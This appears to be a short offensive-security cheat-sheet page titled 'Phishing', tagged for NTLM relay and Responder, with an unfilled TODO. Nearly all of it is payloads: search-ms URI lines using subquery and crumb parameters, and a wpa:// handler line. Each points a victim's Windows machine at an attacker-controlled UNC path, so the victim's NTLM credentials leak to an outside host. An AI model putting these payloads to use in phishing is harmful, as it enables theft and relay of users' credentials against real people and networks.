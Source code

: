 # 03 - Phishing

Search Tag(s): #mitm #responder #smb #relay #ntlm #scenarios #phishing

TODO: Fill this info

## 3.1 - MSQuery

```
search-ms://query=<anything>&subquery=\\<attacker_IP>\<anything>.search-ms

search-ms://query=<anything>&crumb=location:\\<attacker_IP>\<anything>
```

## 3.2 - Windows Performance Analyzer

```
wpa:////<attacker_IP>/<anything>
```